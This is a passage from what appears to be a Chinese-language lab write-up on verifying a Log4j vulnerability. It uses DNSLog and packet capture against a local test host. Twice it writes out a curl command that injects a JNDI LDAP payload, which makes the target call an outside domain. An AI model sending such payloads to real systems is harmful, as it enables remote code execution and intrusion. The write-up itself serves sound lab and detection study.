 2. **使用域名服务器抓包并进行流量分析**
  - 使用 `curl` 命令模拟攻击请求，测试 Log4j 漏洞：
    ```bash
    curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:44515/hello -vv
    ```
  - 通过 `-vv` 参数查看详细的请求和响应信息，确保请求被正确发送并返回预期的结果。
- **抓包结果**：
  - 日志显示请求包含恶意 payload `${jndi:ldap://chloris.check4safe.top}` 请求被成功发送到目标服务器，并且返回了 HTTP/1.1 200 OK 的响应。
  ![1741160078861](image/record/1741160078861.png)

3. **检测结果**
  - 在 `log.fendou.us` 网站的 DNSLog 页面中，可以看到注册的子域名 `chloris.check4safe.top` 的查询记录。

  - 记录显示该域名被解析为 IP 地址 `219.141.176.11`，位置在北京，时间为 `2025-03-05 15:33:23`，验证了 Log4j 漏洞的存在。
  ![1741160054827](image/record/1741160054827.png)

#### [方法二] 使用抓包工具
1. **漏洞利用**
我们先在受害者主机上抓包，然后使用 Wireshark 分析抓到的数据包。
用攻击者主机构造攻击指令
```bash
curl -G --data-urlencode "payload=${jndi:ldap://chloris.check4safe.top}" http://192.168.20.6:44515/hello -vv
```